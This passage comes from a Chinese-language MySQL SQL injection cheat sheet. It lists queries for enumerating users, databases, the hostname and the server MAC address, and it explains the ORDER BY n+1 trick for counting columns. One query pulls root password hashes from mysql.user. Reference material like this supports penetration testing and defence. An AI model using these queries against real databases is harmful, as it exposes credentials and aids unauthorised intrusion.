 __例子__

	SELECT current_user;
	SELECT CONCAT_WS(0x3A, user, password) FROM mysql.user WHERE user = 'root'-- (Privileged)


##### 数据库名字


	表 | information_schema.schemata, mysql.db
	列 | schema_name, db
	当前数据库 | database(), schema()从表名中查找列


__举例__

	SELECT database();
	SELECT schema_name FROM information_schema.schemata;
	SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)


##### 服务器主机

	@@HOSTNAME

__举例__

	SELECT @@hostname;


##### 服务器MAC地址

通用唯一标识符是一个128位数字，最后12位数字由接口MAC地址形成。

	UUID()

最后十二位是`MAC`地址。

	mysql> select uuid();
	+--------------------------------------+
	| uuid()                               |
	+--------------------------------------+
	| cad2fe78-2b67-11e8-af12-00acc7375d92 |
	+--------------------------------------+

某些操作系统可能会返回一个48位随机字符串，而不是MAC地址。


##### 表和列

__确定列数__

__Order/Group By__

	GROUP/ORDER BY n+1;
	注意：
	逐步的增加这个数字直到出现一个错误的响应

	即使GROUP BY和ORDER BY在SQL中具有不同的funcionality，但它们都可以以完全相同的方式用于确定查询中的列数。

__举例__
